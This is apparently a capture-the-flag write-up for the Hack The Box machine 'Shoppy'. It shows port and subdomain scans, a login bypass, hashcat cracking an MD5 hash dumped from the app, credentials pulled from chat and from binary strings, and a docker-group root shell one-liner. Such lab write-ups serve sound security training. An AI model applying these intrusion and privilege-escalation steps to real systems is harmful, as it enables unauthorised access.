



# Shoppy
https://app.hackthebox.com/machines/Shoppy

## Port scan

### Tool used: nmap
<br>

```
nmap -p- shoppy.htb

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-17 11:24 CST
Nmap scan report for shoppy.htb (10.10.11.180)
Host is up (0.060s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat

Nmap done: 1 IP address (1 host up) scanned in 40.15 seconds
```

First, we take a look at the website:<br><br>


Nothing exciting here, so we run *gobuster* to look for subdirectories and subdomains on the host:<br><br>

```
gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================

[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s

===============================================================
2022/11/17 11:27:34 Starting gobuster in directory enumeration mode
===============================================================

/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]              
/admin                (Status: 302) [Size: 28] [--> /login]   
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/Login                (Status: 200) [Size: 1074]              
/js                   (Status: 301) [Size: 171] [--> /js/]    
/fonts                (Status: 301) [Size: 177] [--> /fonts/] 
/Admin                (Status: 302) [Size: 28] [--> /login]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
```

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      50
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/11/17 12:20:52 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                                                       
===============================================================
2022/11/17 12:22:40 Finished
===============================================================
```

The "/login" page presents us with a (as you probably guessed) login prompt:<br><br>



This login prompt was easily bypassed using some simple SQL logic:<br><br>



Once in, there was nothing exciting. However, there was an option to search for users. Using the same logic for bypassing the login, we are able to export some credentials in JSON format:<br><br>

```json
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

Throwing the MD5 hash for "josh" into *hashcat* produced an almost immediate result:<br><br>

```
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt -O
hashcat (v6.1.1) starting...

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

6ebcea65320589ca4f2f1ce039975995:remembermethisway
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 6ebcea65320589ca4f2f1ce039975995
Time.Started.....: Thu Nov 17 12:17:19 2022 (0 secs)
Time.Estimated...: Thu Nov 17 12:17:19 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2818.1 kH/s (0.74ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 815127/14344385 (5.68%)
Rejected.........: 23/815127 (0.00%)
Restore.Point....: 811031/14344385 (5.65%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: reyna! -> ramon51

Started: Thu Nov 17 12:17:02 2022
Stopped: Thu Nov 17 12:17:21 2022
```

Now, we are able to login to "mattermost.shoppy.htb" using the credentials for "josh". After poking around the site, we found a "Deploy Machine" page which displayed a chat conversation between 2 users. In this conversation were some credentials for the machine:<br><br>



We were able to login with "jaeger" and obtain the users flag:

**user.txt**

```
e517df9f************************
```

Next, we see what kind of privileges we have:<br><br>

```
sudo -l

[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

Running *password-manager* (using "sudo -u deploy /home/deploy/password-manager") asks for a master password. Using *cat*, we can find the necessary strings in the program to give us a hint:<br><br>

```
cat password-manager

Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !
```

Using the discovered password with "password-manager" resulted in some more credentials:<br><br>

```
sudo -u deploy /home/deploy/password-manager

Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

From here, we switch to the "deploy" user and execute LinEnum. It shows that *docker* is running, and we are a member of the "docker" group:<br><br>


A quick look at GTFOBins (https://gtfobins.github.io/gtfobins/docker/) shows that we can get a root shell with *docker*:<br><br>

```
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# id

uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

From here, we can capture the root flag:

**root.txt**

```
9e4d1c81************************
```